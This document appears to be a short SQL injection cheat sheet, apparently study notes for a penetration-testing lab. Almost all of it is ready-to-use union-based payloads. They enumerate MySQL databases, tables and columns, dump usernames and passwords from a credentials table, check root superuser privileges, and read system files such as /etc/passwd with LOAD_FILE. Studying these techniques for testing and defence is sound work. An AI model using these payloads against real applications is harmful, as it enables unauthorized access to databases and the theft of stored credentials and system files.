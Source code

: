 ```sql
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
```

Using that as sql injection to show databases.

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```

Find the current databse

```sql
cn' UNION select 1,database(),2,3-- -
```

Getting tables

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

Getting columns

```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

Finally get the data

```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```

### <mark style="color:yellow;">Reading Files</mark>

To read data first check current DB user

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user

# Injection
cn' UNION SELECT 1, user(), 3, 4-- -
```

Then check for privileges, if returns Y meaning superuser privs.

```sql
# Check for superuser
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -     '

# Get all privileges
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

Using LOAD-FILE to read data from files wutg `SELECT LOAD_FILE('/etc/passwd');` .
